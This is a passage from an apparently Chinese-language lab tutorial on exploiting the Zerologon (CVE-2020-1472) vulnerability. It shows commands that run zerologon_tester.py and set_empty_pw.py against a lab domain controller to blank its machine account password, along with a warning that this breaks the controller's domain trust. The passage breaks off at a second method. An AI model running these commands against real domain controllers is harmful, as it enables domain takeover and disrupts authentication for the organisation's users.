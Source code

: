     ```
    python3  zerologon_tester.py  目标计算机名  目标IP
    
    python3 zerologon_tester.py WIN-8GA56TNV3MV 192.168.21.132
    ```
    
    ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2013.png)
    
2. ****置空域控HASH****
    
    **注意：域控的机器帐户 HASH 存储在注册表中，系统启动时会将其加载到 lsass，当攻击置空域控 HASH 后，仅 AD (NTDS.DIT)  中的密码会更改，而不是注册表或加载到 lsass 中的密码，这样将会导致域控脱域，无法使用 Kerberos 进行身份验证，因此要尽快恢复。**
    
    使用 Zerologon 工具将域控密码置换为空
    
    上面给出的工具 set_empty_pw.py 和 cve-2020-1472-exploit.py 都可以用
    
    1. 方法一：
        
        ```
        python3 set_empty_pw.py DC_NETBIOS_NAME DC_IP_ADDR
        
        python3 set_empty_pw.py WIN-8GA56TNV3MV 192.168.21.132
        ```
        
        ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2014.png)
        
    2. 方法二：
        